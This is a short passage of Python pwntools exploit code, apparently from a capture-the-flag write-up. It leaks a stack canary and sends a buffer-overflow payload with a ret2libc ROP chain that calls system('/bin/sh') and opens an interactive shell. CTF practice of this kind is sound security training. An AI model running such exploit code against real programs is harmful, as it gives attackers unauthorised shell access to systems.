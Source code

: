 ```py
print(hex(canary))
p.sendline("y")

# Stage4: Attack!!
p.sendlineafter("User: ","aveiro")
payload=b"4v31r0P4ss"+b"A"*30+p64(canary)+b"A"*8
payload+=p64(base_addr+0x00001016) # ret;
payload+=p64(base_addr+0x000015ab) # pop rdi; ret;
payload+=p64(libc_base+next(libc.search(b"/bin/sh")))
payload+=p64(libc_base+libc.symbols["system"])
p.sendlineafter("Password: ",payload)
p.interactive()
```